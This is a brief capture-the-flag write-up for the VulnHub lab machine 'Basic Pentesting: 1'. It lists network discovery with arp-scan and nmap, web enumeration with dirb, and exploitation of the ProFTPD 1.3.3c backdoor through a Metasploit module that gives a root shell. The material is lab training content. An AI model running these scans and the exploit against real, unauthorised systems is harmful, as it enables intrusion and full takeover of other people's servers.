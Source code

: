 # Basic Pentesting: 1

VM available here: https://www.vulnhub.com/entry/basic-pentesting-1%2C216/

# Writeup

* `ifconfig` - find IP address of the attack VM
* `sudo arp-scan AAA.AAA.AAA.0/24` - find all IPv4 devices on the network
* `nmap -p- -O -sV -vvv BBB.BBB.BBB.BBB` - scan the target machine
  * OS: Linux 3.2 - 4.9
  * 3 open ports: 21 (FTP), 22 (SSH), 80 (HTTP)
* HTTP server:
  * Version: Apache 2.4.18
  * Open victim's IP address in a browser
  * `dirb BBB.BBB.BBB.BBB` - looks for web files and folders
  * Found `http://BBB.BBB.BBB.BBB/secret`
    * This is a WordPress blog
    * Many of the links refer to `http://vtcsec/`
    * Add this hostname to `/etc/hosts` and reload page
  * Found `http://BBB.BBB.BBB.BBB/secret/wp-admin`
  * ...
* FTP server:
  * Version: ProFTPD 1.3.3c
  * `searchsploit Proftpd 1.3.3c` - search for exploits
    * Found a Metasploit module
  * `msfconsole` - start the Metasploit framework console
    * `search Proftpd 1.3.3c`
    * `use exploit/unix/ftp/proftpd_133c_backdoor`
      * `show options`
      * `set RHOSTS BBB.BBB.BBB.BBB`
      * `run` - gives root access to target through a limited shell
